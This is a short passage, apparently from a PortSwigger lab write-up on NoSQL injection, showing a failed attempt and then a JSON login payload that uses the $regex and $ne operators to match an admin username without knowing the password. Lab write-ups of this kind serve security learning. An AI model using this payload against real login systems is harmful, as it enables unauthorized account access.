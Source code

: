 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-2/images/Pasted%20image%2020231009143815.png)

Nope.

**We can also use regular expression (regex) to search through a pattern:**
```json
{
    "username":{
        "$regex": "admin.*"
    },
    "password":{
        "$ne": "foobar"
    }
}
```
